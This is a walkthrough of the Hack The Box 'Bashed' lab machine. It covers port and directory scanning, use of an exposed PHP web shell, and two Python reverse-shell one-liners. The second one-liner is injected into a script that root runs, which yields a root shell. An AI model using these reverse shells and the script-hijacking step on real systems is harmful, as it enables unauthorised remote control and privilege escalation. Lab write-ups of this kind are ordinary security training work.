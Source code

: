 # Hack the box - Bashed

<img align="left" src="logo.png">
&nbsp;<span style="color:#b5e853; font-weight: bold">OS: <img align="top" src="../../../images/linux.png"> </span><b>Linux</b>
&nbsp;<span style="color:#b5e853; font-weight: bold">IP: </span><b>10.10.10.68</b>

&nbsp;<span style="color:#b5e853; font-weight: bold">Difficulity: </span><b>Easy</b>
&nbsp;<span style="color:#b5e853; font-weight: bold">Release: </span><b>2018 Jan 22</b>

___

## Port scanning
```
nmap -sC -sV -T4 -oA nmap 10.10.10.68
```

![Nmap results](./nmap.png)

There is only web server running on this machine.

## Web exploration

On the index page there is blog:

![Index page](index_page.png)

There is a link for github page on the blog:

![Github page](phpbash_github.png)

There is 2 files that could be on the same page. On readme file there is useful information where to find potential shell:

![Github potential shell page](github_potential_shell_page.png)

Let's directory bruteforce this site to get some interesting paths:

```
ffuf -u http://10.10.10.68/uploads/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

![Ffuf](ffuf.png)

There is /dev directory is interesting to look at:

![Dev directory](dev_page.png)

Let's click on phpbash.min.php:

![PHP shell](got_shell.png)

## Getting user flag

We can get user flag straight away:

![User flag](user_flag.png)

## Getting shell on local machine

We need to get connection from we to our local machine. We will use netcat on port 1234 to listen and python script on the server:

Web shell:
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.x.x",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Local machine:
```
nc -vlp 1234
```

![Getting local shell](getting_connection.png)

## Privilege escalation

Where is sudo with no password on scriptmanager user:

```
sudo -l
```

![Sudo scriptmanager](sudo_scriptmanager.png)

Let's improve our shell and check for user files:

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

![Scriptmanager](scriptmanager.png)

As we can see there is test.py file owned by scriptmanager and test.txt owned by root. test.txt is changed recently. We can change test.py file to exploit test.py and get access. Here is cool onliner to inject:

```
echo "import socket,subprocess,os;" > test.py; echo "s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);" >> test.py; echo "s.connect((\"10.10.x.x\",8888));os.dup2(s.fileno(),0);" >> test.py; echo "os.dup2(s.fileno(),1);" >> test.py; echo "os.dup2(s.fileno(),2);" >> test.py; echo "p=subprocess.call([\"/bin/sh\",\"-i\"]);" >> test.py
```

This should work. Just change 10.10.x.x ip to your local. 

## Root flag

Now use netcat to get a root shell:

```
nc -nvlp 8888
```
![Root flag](root_flag.png)